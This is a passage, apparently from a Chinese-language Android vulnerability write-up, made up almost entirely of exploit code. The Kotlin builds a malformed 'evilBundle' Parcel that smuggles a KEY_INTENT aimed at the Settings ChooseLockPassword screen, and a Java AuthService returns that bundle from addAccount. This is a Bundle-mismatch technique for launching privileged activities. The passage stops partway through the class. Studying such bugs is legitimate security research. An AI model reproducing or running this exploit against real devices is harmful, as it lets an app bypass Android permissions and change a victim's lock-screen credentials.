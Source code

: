 ```kotlin
pcelData.writeString("android.content.Intent") // name of Class Loader
pcelData.writeString(Intent.ACTION_RUN) // Intent Action
Uri.writeToParcel(pcelData, null) // Uri is null
pcelData.writeString(null) // mType is null
pcelData.writeInt(0x10000000) // Flags
pcelData.writeString(null) // mPackage is null
pcelData.writeString("com.android.settings")
pcelData.writeString("com.android.settings.password.ChooseLockPassword")
pcelData.writeInt(0) //mSourceBounds = null
pcelData.writeInt(0) // mCategories = null
pcelData.writeInt(0) // mSelector = null
pcelData.writeInt(0) // mClipData = null
pcelData.writeInt(-2) // mContentUserHint
pcelData.writeBundle(null)

val keyIntentEndPos = pcelData.dataPosition()
val lengthOfKeyIntent = keyIntentEndPos - keyIntentStartPos
pcelData.setDataPosition(keyIntentStartPos - 4) // backpatch length of KEY_INTENT
pcelData.writeInt(lengthOfKeyIntent)
pcelData.setDataPosition(keyIntentEndPos)
Log.d(TAG, "Length of KEY_INTENT is " + Integer.toHexString(lengthOfKeyIntent))

///////////////////////////////////////
pcelData.writeString("Padding-Key")
pcelData.writeInt(0) // VAL_STRING
pcelData.writeString("Padding-Value") //

val length = pcelData.dataSize()
Log.d(TAG, "length is " + Integer.toHexString(length))
bndlData.writeInt(length)
bndlData.writeInt(0x4c444E42)
bndlData.appendFrom(pcelData, 0, length)
bndlData.setDataPosition(0)
evilBundle.readFromParcel(bndlData)
Log.d(TAG, evilBundle.toString())
return evilBundle
```

新建`AuthService`，当`addAcount`函数被调用时，会返回`addAccountResponse`

```java
public class AuthService extends Service {
    public static Bundle addAccountResponse;
    @Override
    public IBinder onBind(Intent intent) {
        return new Authenticator(this).getIBinder();
    }
    private static class Authenticator extends AbstractAccountAuthenticator {
        @Override
        public Bundle addAccount(AccountAuthenticatorResponse response, String accountType, String authTokenType, String[] requiredFeatures, Bundle options) throws NetworkErrorException {
            return addAccountResponse;
        }

        ...
```
